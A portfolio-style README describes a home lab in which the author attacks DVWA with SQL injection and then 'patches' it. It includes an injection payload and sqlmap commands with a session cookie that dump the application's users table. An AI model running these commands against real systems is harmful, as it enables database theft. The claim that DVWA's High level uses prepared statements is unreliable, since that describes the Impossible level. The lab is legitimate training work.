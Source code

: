 
# SQL Injection Detection, Exploitation, and Patching Project

**Author:** Sean Johnson  
**Environment:** Kali Linux + Ubuntu VMs  
**Target App:** DVWA (Damn Vulnerable Web Application)  
**Objective:** Perform a full offensive and defensive cycle against a SQL Injection vulnerability using real-world tools and methodology.

---

## Overview

This project simulates a real-world vulnerability lifecycle:

1. Setting up a vulnerable web application (DVWA)
2. Identifying and exploiting a SQL Injection vulnerability
3. Automating the attack with sqlmap
4. Troubleshooting sessions and HTTP behavior
5. Patching the vulnerability using secure coding practices
6. Verifying the patch is effective

---

## Lab Environment

| Role     | System        | Tools                                 |
|----------|--------------|---------------------------------------|
| Attacker | Kali Linux VM | `sqlmap`, `curl`, Firefox             |
| Target   | Ubuntu VM     | Apache2, MySQL, DVWA (PHP app)        |

---

## Phase 1: Vulnerable Environment Setup

### DVWA Installation (on the Ubuntu VM)

```bash
sudo apt update
sudo apt install apache2 mysql-server php libapache2-mod-php php-mysql git
cd /var/www/html
sudo git clone https://github.com/digininja/DVWA.git
cd DVWA/config
sudo cp config.inc.php.dist config.inc.php
```

Edit `config.inc.php`:
```php
$_DVWA['db_user'] = 'dvwauser';
$_DVWA['db_password'] = 'password';
$_DVWA['enable_phpids'] = false;
$_DVWA['disable_authentication_tokens'] = true;
```

### MySQL Configuration

```sql
CREATE DATABASE dvwa;
CREATE USER 'dvwauser'@'localhost' IDENTIFIED BY 'password';
GRANT ALL PRIVILEGES ON dvwa.* TO 'dvwauser'@'localhost';
FLUSH PRIVILEGES;
```

### Final Steps

```bash
sudo systemctl restart apache2
```

Then visit `http://<ubuntu-ip>/DVWA/setup.php` and click **"Create / Reset Database"**.

---

## Phase 2: SQL Injection Detection & Exploitation

### Manual Injection

Navigate to:
```
http://<ubuntu-ip>/DVWA/vulnerabilities/sqli/
```
Inject:
```
1' OR '1'='1
```
**Result:** Returned a list of users (vulnerable to SQLi)

### Automated Exploitation Using sqlmap

> **Challenge:** DVWA ties sessions to IPs — needed to log in from Kali browser and grab a valid `PHPSESSID`.

Tested session:
```bash
curl -IL --cookie "PHPSESSID=abc123; security=low" "http://<ip>/DVWA/vulnerabilities/sqli/?id=1"
# Output: HTTP/1.1 200 OK
```

Then ran:
```bash
sqlmap -u "http://<ip>/DVWA/vulnerabilities/sqli/?id=1" \
  --cookie="PHPSESSID=abc123; security=low" \
  --dbs --batch --flush-session
```
**Output:**
```
[*] dvwa
[*] information_schema
```

Then dumped users:
```bash
sqlmap -u "http://<ip>/DVWA/vulnerabilities/sqli/?id=1" \
  --cookie="PHPSESSID=abc123; security=low" \
  -D dvwa -T users --dump --batch --flush-session
```

---

## Troubleshooting & Debugging Log

| Issue                                  | Fix                                                     |
|-----------------------------------------|---------------------------------------------------------|
| 302 Redirect from DVWA                  | Ensured valid PHPSESSID by logging in from Kali         |
| You have no declared cookies            | Added --cookie header with both session + security      |
| GET parameter Submit not injectable     | Ensured correct URL and that security level was low     |
| Malformed input to a URL function       | Corrected quotes and semicolon formatting               |
| sqlmap output not changing              | Used --flush-session to force fresh scan                |

---

## Phase 3: Patching the Vulnerability

1. **Elevate DVWA to “High” Security**  
   Go to: `DVWA → DVWA Security → Set to High → Submit`  
   > This updates the PHP code to use prepared statements (`PDO::prepare + bindParam`), which prevents injection.

2. **Re-Test Injection**  
   - Manual input of `1' OR '1'='1` returned no data.
   - `sqlmap` test returned:
     ```
     [WARNING] all tested parameters do not appear to be injectable.
     ```

---

## Outcome

| Phase                  | Result                     |
|------------------------|---------------------------|
| Environment Setup      | Success                   |
| SQL Injection (manual) | Confirmed vulnerability   |
| sqlmap Exploitation    | Data exfiltration completed |
| Patch via DVWA security| Effective — injection blocked |
| Re-test & Validation   | Confirmed vulnerability resolved |

---

## Key Skills Demonstrated

- Web app vulnerability analysis
- Real-world penetration testing workflow
- SQL injection attack methods and mitigation
- Session hijacking and curl/http debugging
- Use of automated tools (`sqlmap`)
- Patch validation and secure coding awareness
```
